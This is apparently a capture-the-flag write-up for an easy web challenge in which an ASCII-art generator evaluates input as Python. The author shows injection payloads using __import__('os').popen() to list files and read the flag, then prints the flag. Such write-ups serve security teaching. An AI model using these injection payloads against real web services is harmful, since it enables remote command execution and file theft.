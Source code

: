 
# Challenge Name: password hint


![date](https://img.shields.io/badge/date-18.03.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![crypto category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Easy-blue.svg)
![score](https://img.shields.io/badge/score-50-blue.svg)



## Detailed solution

Let's open the challenge link http://18.196.160.18:3333/ . We have an ASCII art tool that take our input and convert it to ASCII art

![image](https://user-images.githubusercontent.com/72421091/113364096-8b5e2d00-934a-11eb-93af-05b86b5b5843.png)

Checking our request, it's a POST to /send with the data name = our input  

Let's check the page source after printing view-source:http://18.196.160.18:3333/send 

![image](https://user-images.githubusercontent.com/72421091/113364404-4d153d80-934b-11eb-8c3c-4636c14188e4.png)

We can see the printed data and a weird comment tag that contains the data used in request and "is not defined" 

I started exploiting the input, i used the os.popen() to execute "ls" command ```__import__('os').popen('ls').read()```  

After printing i checked the page source. At the comment tag we can see the command output 

```
    <!-- app.py
flag
static
templates
 -->
``` 

Let's modify our payload to read the **flag** file using cat ```__import__('os').popen('cat flag').read()``` 

Checking the page source and we found our flag   

```
    <!-- FLAG{Congratz_U_PWNED_MY_PANTING}
 -->
```

## Flag

```
FLAG{Congratz_U_PWNED_MY_PANTING}
```
